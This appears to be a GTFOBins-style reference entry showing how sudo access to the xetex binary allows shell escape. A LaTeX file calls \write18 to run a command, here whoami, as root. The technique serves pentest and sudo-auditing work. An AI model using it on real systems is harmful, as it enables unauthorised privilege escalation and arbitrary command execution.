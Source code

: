 functions:
  sudo:
    - code: |
        echo "\documentclass[12pt]{article} \begin{document} \immediate\write18{/usr/bin/whoami} \end{document}" > file.tex
        sudo xetex -interaction=nonstopmode -shell-escape file.tex
